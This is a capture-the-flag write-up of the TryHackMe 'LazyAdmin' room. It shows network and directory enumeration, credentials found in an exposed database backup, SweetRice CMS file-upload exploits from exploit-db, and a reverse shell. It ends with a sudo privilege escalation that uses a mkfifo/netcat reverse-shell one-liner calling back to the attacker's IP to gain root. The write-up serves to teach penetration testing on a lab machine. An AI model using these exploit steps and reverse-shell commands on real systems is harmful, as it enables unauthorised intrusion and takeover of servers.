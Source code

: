 ```yaml
---
title: LazyAdmin-writeup-THM
date: 2024-01-02
categories: [room, easy]
tags: [linux]     # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1494256997604-768d1f608cac?q=80&w=2729&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/lazyadmin">LazyAdmin</a>"

The first thing that I am going to do is a nmap scan:

```bash
nmap 10.10.243.20       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 07:27 EST
Nmap scan report for 10.10.243.20
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```

From there we can see that it has:

- 22(SSH)
- 80(HTTP)

First of all I am going to explore the web page.

We got meeted by the apache2 ubuntu default page, that’s good, because now weknow that it is an ubuntu machine and it’s running Apache2.

Now I am just going to run ffuf for directory enumeration:

```bash
ffuf -u http://10.10.243.20/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1172ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4189ms]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 353 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

As we can see we got a content page, let’s see what’s in here.

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled.png)

That’s great, now we know that the web page is using Basic CMS.

For now I am just going to follow the tip that the default web page gave us: “If you are the webmaster,please go to Dashboard -> General -> Website setting”.

but for doing that we first need to login and access the dashboard.

I ran another directory scanner, this time inside content:

```bash
ffuf -u http://10.10.243.20/content/FUZZ -w /usr/share/wordlists/dirb/big.txt

  
      /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1687ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 55ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2705ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 58ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 57ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 57ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 271 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

The dashboard is located in /content/as.

But we don’t have the credentials yet. 

I went into inc, and there we can see a mysql backup:

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled%201.png)

Here we can see the hashed password and the login username.

manager:Password123

Now we can see which version is running, after searching on internet I found this script: “https://www.exploit-db.com/exploits/40716”

```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.243.20/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.243.20/content/attachment/php.php
```

This one didn’t work so I am going to switch to another one that I have found: “https://www.exploit-db.com/exploits/40700”

It bascially tells you to go and add a file in the ads section.

after that we just navigate to the ads directory “http://10.10.243.20/content/inc/ads/” and we have our shell:

```bash
nc -lvnp 4444  

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 35430
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                                                                                                    
 15:20:14 up 53 min,  0 users,  load average: 0.00, 0.00, 0.07                                                                                                                                                                                                                   
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Going to the IT guy directory gives us the user flag. 

Now using sudo -l:

```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can see that we can use perl and backup.pl with root privileges.

```bash
cat /home/itguy/backup.pl

#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

This basically just execute the `/etc/copy.sh` file

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.116 4555 >/tmp/f
```

So I changed the cdoe with my ip and port, then executed with: sudo /usr/bin/perl /home/itguy/backup.pl and got the shell.

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 56612
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```